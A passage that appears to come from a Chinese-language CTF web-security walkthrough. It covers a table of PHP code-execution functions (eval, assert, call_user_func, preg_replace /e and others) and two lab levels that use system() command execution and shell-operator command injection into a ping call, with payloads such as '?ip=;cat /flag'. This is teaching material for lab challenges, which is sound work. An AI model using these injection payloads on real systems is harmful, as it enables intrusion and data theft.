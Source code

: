 | 函数                                                         | 说明                                                         | 示例代码                                                     |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| `${}`                                                        | 用于复杂的变量解析，通常在字符串内用来解析变量或表达式。可以配合 `eval` 或其他动态执行代码的功能，用于间接执行代码。 | `eval('${flag}');`                                           |
| [`eval()`](https://www.php.net/manual/zh/function.eval.php)  | 用于执行一个字符串作为 PHP 代码。可以执行任何有效的 PHP 代码片段。没有返回值，除非在执行的代码中明确返回。 | `eval('echo $flag;');`                                       |
| [`assert()`](https://www.php.net/manual/zh/function.assert.php) | 测试表达式是否为真。PHP 8.0.0 之前，如果 `assertion` 是字符串，将解释为 PHP 代码并通过 `eval()` 执行。<br />**PHP 8.0.0 后移除该功能。** | `assert(print_r($flag));`                                    |
| [`call_user_func()`](https://www.php.net/manual/zh/function.call-user-func.php) | 用于调用回调函数，可以传递多个参数给回调函数，返回回调函数的返回值。适用于动态函数调用。 | `call_user_func('print_r', $flag);`                          |
| [`create_function()`](https://www.php.net/manual/zh/function.create-function.php) | 创建匿名函数，接受两个字符串参数：参数列表和函数体。返回一个匿名函数的引用。<br />**自 PHP 7.2.0 起被*废弃*，并自 PHP 8.0.0 起被*移除*。** | `create_function('$a', 'echo $flag;')($a);`                  |
| [`array_map()`](https://www.php.net/manual/zh/function.array-map.php) | 将回调函数应用于数组的每个元素，返回一个新数组。适用于转换或处理数组元素。 | `array_map(print_r($flag), $a);`                             |
| [`call_user_func_array()`](https://www.php.net/manual/zh/function.call-user-func-array.php) | 调用回调函数，并将参数作为数组传递。适用于动态参数数量的函数调用。 | `call_user_func_array(print_r($flag), array());`             |
| [`usort()`](https://www.php.net/manual/zh/function.usort.php) | 对数组进行自定义排序，接受数组和比较函数作为参数。适用于根据用户定义的规则排序数组元素。 | `usort($a,print_r($flag));`                                  |
| [`array_filter()`](https://www.php.net/manual/zh/function.array-filter.php) | 过滤数组元素，如果提供回调函数，仅包含回调返回真值的元素；否则，移除所有等同于false的元素。适用于基于条件移除数组中的元素。 | `array_filter($a,print_r($flag));`                           |
| [`array_reduce()`](https://www.php.net/manual/zh/function.array-reduce.php) | 迭代一个数组，通过回调函数将数组的元素逐一减少到单一值。接受数组、回调函数和可选的初始值。 | `array_reduce($a,print_r($flag));`                           |
| [`preg_replace()`](https://www.php.net/manual/zh/function.preg-replace.php) | 执行正则表达式的搜索和替换。可以是单个字符串或数组。适用于基于模式匹配修改文本内容。<br />**依赖 /e 模式，该模式自 PHP7.3 起被取消。** | `preg_replace('/(.*)/ei', 'strtolower("\\1")', ${print_r($flag)});` |
| [`ob_start()`](https://www.php.net/manual/zh/function.ob-start.php) | ob_start — 打开输出控制缓冲,可选回调函数作为参数来处理缓冲区内容。 | `ob_start(print_r($flag));`                                  |

推荐你在本地进行调试以熟悉对应函数的使用方法。

### Level 3 : 命令执行 

同之前的 Level 1 : 一句话木马和代码执行  关卡一致，只不过这里的入口换成了system.

`system()` 函数会通过sh软连接执行你输入的系统命令。

**POST**：`a=cat /flag`

### Level 4 : 命令执行 - SHELL 运算符 

源码很简单：`system("ping -c 1 $ip");`

首先Shell的运算符可以参考下面的表格：

| 运算符               | 说明                                                         | 示例代码                                                     |
| -------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| `&&`（逻辑与运算符） | AND操作 只有当第一个命令 `cmd_1` 执行成功（返回值为 0）时，才会执行第二个命令 `cmd_2`。 | `mkdir new_folder && cd new_folder` （只有在新建文件夹成功后才进入该文件夹） |
| `\|\|`（逻辑或运算符） | OR操作 只有当第一个命令 `cmd_1` 执行失败（返回值不为 0）时，才会执行第二个命令 `cmd_2`。 | `mkdir new_folder \|\|echo "Folder exists"` （如果创建文件夹失败，则输出 "Folder exists"） |
| `&`（后台运行符）    | 将命令 `cmd_1` 放到后台执行，Shell 立即执行 `cmd_2`，两个命令并行执行。 | `sleep 10 & echo "This will run immediately."`               |
| `;`（命令分隔符）    | 无论前一个命令 `cmd_1` 是否成功，都会执行下一个命令 `cmd_2`。这允许将命令堆叠在一起。命令会依次执行。 | `echo "Hello"; echo "World"` （先输出 "Hello"，再输出 "World"） |

所以只需要在输入的时候 在后面利用连接符拼接我们想要执行的命令即可：

GET 下面几种均可：

```bash
?ip=1.1.1.1&&cat /flag

?ip=||cat /flag

?ip=;cat /flag

?ip=&cat /flag  # &需要URL编码
```
